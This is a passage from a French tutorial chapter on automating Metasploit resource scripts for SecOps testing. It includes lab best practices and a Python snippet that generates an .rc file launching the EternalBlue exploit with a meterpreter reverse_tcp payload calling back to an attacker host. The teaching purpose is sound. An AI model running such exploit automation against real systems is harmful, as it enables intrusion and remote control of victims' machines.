 💡 Le script ci-dessus :

* Crée un fichier `test.rc` à la volée
* Lance un scan HTTP sur la cible Docker
* Enregistre les résultats dans `resultat.txt`

---

## 6. Bonnes pratiques pour les tests automatisés (SecOps)

✅ Toujours cibler un environnement **contrôlé et isolé** (staging, lab, conteneur).

✅ Ne jamais lancer un `.rc` sur une prod réelle sans validation humaine.

✅ Coupler les scripts avec des outils comme `nmap`, `Nikto`, ou des alertes Prometheus pour corrélation d'événements.

✅ Garder tous les logs et les inclure dans un **dashboard de sécurité** (Ex: ELK, Grafana).

✅ Versionner vos scripts `.rc` comme du code standard.

✅ Documenter chaque test (nom du module, CVE, effet attendu, risques).

---

## 7. Astuce bonus : générer dynamiquement un `.rc` avec Python

```python
rhost = "192.168.56.101"
lhost = "192.168.56.1"
with open("autogen.rc", "w") as f:
    f.write(f"use exploit/windows/smb/ms17_010_eternalblue\n")
    f.write(f"set RHOSTS {rhost}\n")
    f.write(f"set PAYLOAD windows/x64/meterpreter/reverse_tcp\n")
    f.write(f"set LHOST {lhost}\n")
    f.write(f"set LPORT 4444\n")
    f.write("exploit -z\n")
```

---

## ✅ Objectifs atteints

À la fin de ce chapitre, vous savez :

* Créer et exécuter des scripts `.rc`
* Automatiser un scan + exploitation + post-exploitation
* Intégrer Metasploit dans un pipeline CI/CD
* Suivre les bonnes pratiques de tests de sécurité automatisés en SecOps

Dans le chapitre suivant, vous apprendrez comment intégrer Metasploit dans une **architecture DevSecOps complète**, avec **Jenkins, GitLab, Terraform, conteneurs et environnements de staging sécurisés**.

> Vous êtes maintenant capable d’orchestrer des attaques reproductibles, documentées et traçables comme un professionnel de la sécurité offensive.
